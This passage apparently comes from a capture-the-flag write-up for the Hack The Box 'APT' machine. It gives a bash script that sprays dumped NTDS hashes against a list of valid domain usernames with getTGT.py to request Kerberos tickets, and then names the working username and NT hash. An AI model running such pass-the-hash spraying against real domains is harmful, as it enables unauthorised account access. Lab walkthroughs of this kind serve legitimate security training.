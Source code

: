 
We can also try to request the TGT ticket granting ticket with the all the hashes we have against these valid users.


Here is a bash script I made to automate this process.

```bash
#!/bin/bash 
#Request the TGT with hash

for i in $(cat wordlists/valid.usernames) 
do 
        for j in $(cat wordlists/hashes.ntds) 
        do 
                echo trying $i:$j 
                echo 
                getTGT.py htb.local/$i -hashes $j:$j    
                echo 
                sleep 5 
        done 
done


```

<p class= "aligncenter" >
  <img src="/assets/img/Posts/APT/get-tgt.png" class="center">
</p>


The correct pair of username:hash is henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb , let's login to rpcclient and enumerate more usernames.
